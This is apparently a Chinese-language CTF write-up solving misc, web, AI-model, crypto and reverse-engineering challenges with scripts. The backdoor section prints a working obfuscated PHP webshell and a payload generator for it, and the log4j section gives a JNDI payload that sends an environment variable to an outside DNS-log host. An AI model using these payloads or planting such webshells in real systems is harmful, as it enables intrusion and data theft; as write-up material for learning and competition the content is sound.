

# MISC

## ezDecode

简单的解密小游戏

编码1：ZmxhZ3t3M2xjMG1f

base64加密：flag{w3lc0m_

编码2：Key == 2

7_mznoaa19：7o_amaz1n9

栅栏加密：

编码3：Play With Bubble

xilog-fahig-kalal-kytef-begig-nanyh-zumal-tuxox

Bubble加密，给脚本：

```python
'''
Author: KonDream
Date: 2022-01-22 10:02:57
LastEditors:  KonDream
LastEditTime: 2022-01-24 03:12:34
Description:  
'''
from bubblepy import BubbleBabble

str='xilog-fahig-kalal-kytef-begig-nanyh-zumal-tuxox'

Str=BubbleBabble()
print(Str.decode(str))
# _CTF_vv0RId_!}
```

三段拼接得到flag：flag{w3lc0m_7o_amaz1n9_CTF_vv0RId_!}

## SignIn

签到题，给脚本，简单说num初始值为23，找到23的键值对应6，再以6为索引得到ans中的 'l'，然后更新num为6，再去找对应的键值，循环这个过程，这个思想对后面AI专栏的DNN有帮助

```python
'''
Author: KonDream
Date: 2022-01-22 09:01:15
LastEditors:  KonDream
LastEditTime: 2022-01-24 03:15:48
Description:  
'''

ans='t_3Lhalemsc!{1-5oHET+wgfi}'

flag_dict={8: 18, 11: 25, 20: 0, 17: 7, 12: 19, 15: 1, 19: 4, 22: 12, 7: 14, 9: 20, 13: 9, 25: 12, 3: 10,
21: 2, 0: 17, 1: 13, 2: 3, 4: 24, 6: 5, 18: 11, 16: 8, 10: 16, 14: 21, 24: 15, 23: 6, 5: 22}

num = 23
print('f', end="")
for i in range(1, len(ans)):
    tmp = flag_dict[num]
    print(ans[tmp], end="")
    num = tmp
# flag{Thi5_1s+tHe-w3LcomE!}
```

## 签到

说是签到，却是我最后一个做出来的misc题Orz

给了一个data，16进制看了下有PNG头，先拿去binwalk一手，诶，binwalk没出来，换foremost得到两张一样的图，一张png，一张jpg(这哪里一样=-=)

盲水印，上工具：https://github.com/chishaxie/BlindWaterMark

最后得到一张隐隐约约有flag的图


勉强能辨认吧，要瞎了

flag：flag{XqAe3QzK2ehD5fWv8jfBitPqHUw0}

为什么这题卡的久呢，是因为工具中有这样一句话

>注意程序python2和python3版本的加解密结果会有所不同，主要原因是python2和python3 random的算法不同，如果要让python3兼容python2的random算法请加 --oldseed参数。
>
>Note that the enode and decode results of the python2 and python3 versions of the program will be different. The main reason is that the python2 and python3 random algorithms are different. If you want to make python3 compatible with the random algorithm of python2, please add the --oldseed parameter.

然鹅，当你使用 python3 并加上oldseed参数时，是无法得到flag图片的，同理Python2也一样，这里失败的图我就不放了，眼花，只有使用python3并不带参数才能拿到flag，针不戳

## 这个doc不太对劲

题目出题人换过了，最开始的附件是个doc，要手动改后缀。拿到压缩包找找有没有有用信息


真滴有，下面那个打开发现需要密码，那密码就在key.txt中了，打开一看发现了问题


零宽隐写，在线解一下：http://330k.github.io/misc_tools/unicode_steganography.html


这个字符串有点问题，后面出题人说过了，应该是Because I like naruto best

作为key拿去解压缩，发现压缩包里10w+张图片，仔细观察后发现其实只有两种，那么就考虑0和1了，一个代表0，另一个代表1，将全部图片转为01字符后，考虑下一步。

常见的要么是拼二维码，要么是转字符串。从字符串的长度来看拼二维码过于勉强(其实我拼了，没什么特别的)，所以考虑后者


观察字符串，前8位转10进制是100，对应d，后面以此类推，得到


明显是图片的base64，最后解出来的图片就是flag


flag：flag{57dd74fb21bb1aee50f19421bf836f23}

给个脚本：

```python
'''
Author: KonDream
Date: 2022-01-22 17:02:54
LastEditors:  KonDream
LastEditTime: 2022-01-23 13:13:32
Description:  
'''
import os
from PIL import Image
import base64

path = "C://Users//dell//Desktop//love//out//{}.png" 

flag_1 = '' # 2进制字符串
flag_2 = '' # base64
for i in range(129488): 
    img_name = path.format(str(i))
    img = Image.open(os.path.join(os.getcwd(), img_name))
    if img.size[0] == 23:
        flag_1 += '0'
    elif img.size[0] == 27:
        flag_1 += '1'  
    
    if i % 8 == 7:  # 8位一转ascii
        flag_2 += chr(int(flag_1, 2))
        flag_1 = ''

flag_img = base64.b64decode(flag_2[22:])    # base64转图片
file = open('flag.png','wb')
file.write(flag_img)
file.close()
# flag.png
```

## 这里有后门！

还原后门代码

```php
<?php

highlight_file(__FILE__);

$kh="3481";
$kf="9d7b";
function x($t,$k){
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0;$i<$l;)
    {for($j=0;($j<$c&&$i<$l);$j++,$i++)
        {$o.=$t{$i}^$k{$j};}
    }
    return $o;
}

$r=$_SERVER;
$rr=@$r["HTTP_REFERER"];
$ra=@$r["HTTP_ACCEPT_LANGUAGE"];
if($rr&&$ra)
{
    $u=parse_url($rr);
    parse_str($u["query"],$q);
    $q=array_values($q);
    preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/",$ra,$m);
    if($q&&$m)
    {
        @session_start();
        $s=&$_SESSION;
        $ss="substr";
        $sl="strtolower";
        $i=$m[1][0].$m[1][1];
        $h=$sl($ss(md5($i.$kh),0,3));
        $f=$sl($ss(md5($i.$kf),0,3));
        $p="";
        for($z=1;$z<count($m[1]);$z++)
        $p.=$q[$m[2][$z]];
        if(strpos($p,$h)===0)
        {
            $s[$i]="";
            $p=$ss($p,3);
        }
        if(array_key_exists($i,$s))
        {
            $s[$i].=$p;
            $e=strpos($s[$i],$f);
            if($e)
            {
                $k=$kh.$kf;
                ob_start();
                @eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/","/-/"),array("/","+"),$ss($s[$i],0,$e))),$k)));
                $o=ob_get_contents();
                ob_end_clean();
                $d=base64_encode(x(gzcompress($o),$k));
                print("<$k>$d</$k>");
                @session_destroy();
            }
        }
    }
}
```

先看传参，rr是请求头中referer字段内容，ra是Accept-Language字段内容

```php
$r=$_SERVER;
$rr=@$r["HTTP_REFERER"];
$ra=@$r["HTTP_ACCEPT_LANGUAGE"];
```

对参数进行处理，$u将url转为数组存储，$q将GET参数进行转换

```php
$u = parse_url($rr);
parse_str($u["query"], $q);
$q = array_values($q);
```

正则匹配，比如传入$ra= "ab;q=0.0,AB;q=0.0,de;q=0.1"，那么$m中的结果就如下，后面用到的就是m[1]和m[2]

```php
preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/",$ra,$m);
# $m
<br>array(3) {
  [0]=>
  array(3) {
    [0]=>
    string(9) "ab;q=0.0,"
    [1]=>
    string(9) "AB;q=0.0,"
    [2]=>
    string(8) "de;q=0.1"
  }
  [1]=>
  array(3) {
    [0]=>
    string(1) "a"
    [1]=>
    string(1) "A"
    [2]=>
    string(1) "d"
  }
  [2]=>
  array(3) {
    [0]=>
    string(1) "0"
    [1]=>
    string(1) "0"
    [2]=>
    string(1) "1"
  }
}
```

沿用上面的参数，$i就是aA，$h是把 aA+$kh md5加密后取前三位并转小写

```php
@session_start();
$s=&$_SESSION;
$ss="substr";
$sl="strtolower";
$i=$m[1][0].$m[1][1];
$h=$sl($ss(md5($i.$kh),0,3));
$f=$sl($ss(md5($i.$kf),0,3));
/*
$i string(2) "aA"
$h string(3) "de8"
$f string(3) "250"
*/
```

假设referer字段为xxx/?aa=123&bb=123 到第三行$p就为123123，下面要进入第4行判断，$p要以$h开头，$h为"de8"，所以可传xxx/?aa=de8&bb=xxx，并在第7行中舍弃了$p的前三位，所以关键就是后面这个参数怎么传

```php
$p="";
for($z=1;$z<count($m[1]);$z++)
    $p.=$q[$m[2][$z]];
if(strpos($p,$h)===0)
{
    $s[$i]="";
    $p=$ss($p,3);
}
```

这里给$s赋值，同时$e要为True，也就是说$s中要有$f，且不能以$f开头，$f是"250"，那么传xxx/?aa=de8&bb=xxx250

```php
$s[$i].=$p;
# $s array(1) { ["aA"]=> string(6) "xxx250" }
$e=strpos($s[$i],$f);
if($e)
{
    $k=$kh.$kf;
# $k string(8) "34819d7b"
    ob_start();
```

最后就是执行函数，$ss($s[$i],0,$e)，取$s[$i]中的0-$e位，也就是xxx250中的xxx，并将其中的_换为/，-换为+，再进行base64解码，执行x函数，然后解压缩

```php
 @eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/","/-/"),array("/","+"),$ss($s[$i],0,$e))),$k)));
```

返回值，是上面执行函数处理时的逆过程，先压缩，再x加密，在base64编码，x函数是对密钥进行循环异或加密，所以到时候解密直接拿来用就行

```php
$o=ob_get_contents();
ob_end_clean();
$d=base64_encode(x(gzcompress($o),$k));
print("<$k>$d</$k>");
```

综上所述，要想利用这个马，关键是执行函数中最开始的xxx，也就是xxx/?aa=de8&bb=xxx250第二个参数就是想执行的任意命令，这里我写了一个生成payload和base64解密的脚本

生成payload：

```php
<?php
$kh="3481";
$kf="9d7b";

$i = 'aA'; // $m[1][0].$m[1][1]
$h=strtolower(substr(md5($i.$kh),0,3)); 
$f=strtolower(substr(md5($i.$kf),0,3)); 

function x($t,$k){
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0;$i<$l;)
    {for($j=0;($j<$c&&$i<$l);$j++,$i++)
        {$o.=$t{$i}^$k{$j};}
    }
    return $o;
}

$key = $kh.$kf;
$payload="system('tac /flag');";
$payload = gzcompress($payload);
$payload = x($payload,$key);
$payload = base64_encode($payload);
$payload = preg_replace(array("/\//","/\+/"),array("_","-"), $payload);
$payload = $payload.$f;
echo "http://localhost/index.php?aa=de8&bb=".$payload.'<br>';
echo "ab;q=0.0,AB;q=0.0,de;q=0.1";
```

解密:

```php
<?php
$kh="3481";
$kf="9d7b";
$k=$kh.$kf; // 34819d7b

function x($t,$k){
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0;$i<$l;)
    {for($j=0;($j<$c&&$i<$l);$j++,$i++)
        {$o.=$t{$i}^$k{$j};}
    }
    return $o;
}

$output = 'S6hz+nAomOxkwAs5tku6LXwZsf5wSHhRH39tHpdP+Sr+/ZHUO2TrlT+e';
$o = base64_decode($output);
$o = x($o,$k);
echo gzuncompress($o);
```


解出flag：flag{_!N0W_u_get_lawf1ve's~shell}

# WEB

## ezsql

简单手测了一下没有过滤，避免浪费时间直接sqlmap一把梭

## unserialize

简单反序列化，cookie传参

```php
<?php

class ctfShowUser{
    public $isVip=true;
}

echo serialize(new ctfShowUser);   
# O:11:"ctfShowUser":1:{s:5:"isVip";b:1;}
```

记得编码

## RCE_fun

这题环境越来越乱了，做的晚了只能用别人的马

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|\<|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c);
    }

}else{
    highlight_file(__FILE__);
}
?>
```

基本是和空格说拜拜了，ls看一眼


好家伙。。这题原意是有一个名叫A**<?php**的文件，还有个**eval($_POST[1]);?>**的文件，预期解是执行**ls>z.php**，将所有文件名输入到z.php中，这样就得到了马，但是限制也很明显，不能传文件名字典序在两个马之间的，否则写进去的马无法执行，就比如图里的4-7行。我刚做的时候有个人就写了个a，所以现在只能拿别人的马来用了。

## upload bypass

非预期了，直接命令执行


## Not Loginme

脑洞题，登录url：api/login.php

不要登录：访问 api/logout.php

flag：flag{d0not_g1veup!C0me_on}

## 你真的会log4j吗

手测了几个bypass的姿势发现不行，后来发现其实根本无法RCE，只能通过恶意请求进行环境变量泄露

payload：${jndi:ldap://xxxx.dnslog.cn/${env:FLAG}}


成功带出flag：flag{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}

# AI

## 模型里的flag1

下个Netron，随便翻翻就有了


flag：flag{0xdf2a78e_you_are_right!^v^}

## 模型里的flag2

应该非预期了

```python
'''
Author: KonDream
Date: 2022-01-23 11:06:46
LastEditors:  KonDream
LastEditTime: 2022-01-23 11:20:51
Description:  
'''
import netron

modelPath = "flag_hard.pt"
netron.start(modelPath)
```

得到个压缩包，打开翻翻


base64解

flag：flag{model_reverse_is_an_important_skill!}

## DNN的本质

关键看数据集的构造方法

```python
train_data=[]
ans_to_flag2_dict={}
ans_to_flag2_dict=getdict2(ans_to_flag2_dict,ans,flag2)
keys=list(ans_to_flag2_dict)
for i in keys:
    print(i,'----------->',ans_to_flag2_dict[i])
    train_data.append((feature_dict[i],feature_dict[ans_to_flag2_dict[i]]))
# ans='al8kc_f3}d50A{6e7x1gi2'
```

第7行append的两个参数分别是x和y，feature_dict[i]是ans每个字符的特征，比如

'a': [0.6, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2, 0.2]

代表字符a在第一位置出现，同理feature_dict[ans_to_flag2_dict[i]]是flag2每个字符的特性

```python
def getdict2(mydict,ans,flag):
    pre_char='f'
    for i in range(1,len(flag)):
        now_char=flag[i]
        mydict[pre_char]=now_char
        pre_char=now_char
    mydict['d']='}'
    return mydict
```

根据getdict2方法可以看到键值对的构造方法，f->l l->a，以此类推

那么就可以根据提供的网络模型去得出预测值：

```python
dnn = torch.load('dnn.pt')
x = torch.tensor(feature_dict['f'],dtype=torch.float)
print(dnn(x))
# ans='al8kc_f3}d50A{6e7x1gi2'
```

比如初始字符是 'f'，找到f的下一个



根据预测结果看到第二个最接近0.6，在ans中索引得到 'l'

接着将'l'输入，同样的方法得到'a'，以此类推

flag：flag{A1ice_0x3k52876d}

# CRYPTO

## modulus

共模攻击

```python
'''
Author: KonDream
Date: 2022-01-22 10:31:48
LastEditors:  KonDream
LastEditTime: 2022-01-22 10:32:51
Description:  
'''
from Crypto.Util.number import *
import gmpy2
import binascii

n = 76838382776165334461942180085689452404606641439466820769189338357766991730814155482193009845637357268787911515640363338158772986934696865462900779040375411501383618360868412077149673133429496437975663431929651439027633458520931953109238459549530981070215203320421182512576037299975688467626161759074394405069
e1 = 14204849
e2 = 16455353
c1 = 21095274060138099610484690902699030696386125440714423912162096585624730354183995934768266488334015817880685930723853154135331644938936377298747229873169200310288818737298985507114334949919206362111920792416848917405949967199441492915810022650533087422589582265564587168447087957877595967188256970112320052340
c2 = 62353654795586387649725838883617937051216936727630243498022787474725928365018242579319636479097463513385107004619279784977221650123211832574939356267057534949913261620944966001586146148476033039111417515384274483927298092684888427821287717830063955919331177309797944631129981025557313917103086736046409134914

s = gmpy2.gcdext(e1,e2)
m1 = gmpy2.powmod(c1,s[1],n)
m2 = gmpy2.powmod(c2,s[2],n)

m = (m1*m2)%n

print(binascii.unhexlify(hex(m)[2:]))
# flag{7595a6ce10d767b8d08a79bfc4573f8a}
```

## random1

直接爆

```python
'''
Author: KonDream
Date: 2022-01-22 16:32:17
LastEditors:  KonDream
LastEditTime: 2022-01-24 04:49:13
Description:  
'''
from gmpy2 import *
from Crypto.Util.number import *
import random

c = 719028294210632543368878844834655206606356013256382832662360362877574555790654952967912693522540000611560622511684085589166565140749556061662256974690725786501222482290915617036747602325622617269134022143404535583599596834946067428099406799024526883962726940370214659716020449707643183914256819112733399150396458691937953753445791702514011120337871809354601762309635188126199398210123378167758351268702083378107582542913010934385153773409038020029743194530836198625918034380349763650154051460399496931405257800732246465977262275504746038901315165057609036546828060255935748385476895900724205950907120948089647212722

while True:
    E = 65537
    r = lambda x: bytes([random.getrandbits(8)])
    P = getPrime(1024, randfunc=r)
    Q = getPrime(1024, randfunc=r)
    N = P * Q
    if gcd(E, (P-1)*(Q-1)) == 1:
        d = invert(E, (P-1)*(Q-1))
        m = pow(c, d, N)
        flag = long_to_bytes(m)
        if b'flag' in flag:
            print(flag)
            break
# flag{985c3c5c5d5a55e473ffe546bb3d6bfa}
```

# REVERSE

## 哼，字节码

python字节码逆向，解题脚本

```python
'''
Author: KonDream
Date: 2022-01-22 22:06:46
LastEditors:  KonDream
LastEditTime: 2022-01-22 22:27:53
Description:  
'''

f = [370, 376, 373, 371, 367, 356, 333, 352, 380, 379]
b = [1402, 1355, 1317, 1383, 1355, 1317, 1402, 1376, 1393, 1350, 1383, 1376, 1405, 1402, 1395, 1385]

def cal1():
    flag1 = ''
    for i in range(10):
        flag1 += chr(f[i] ^ 276)
    return flag1

def cal2():
    flag2 = ''
    for i in range(16):
        flag2 += chr(b[i] ^ 1300)
    return flag2

print(cal1() + cal2())
# flag{pYthon_1s_1nteRsting}
```

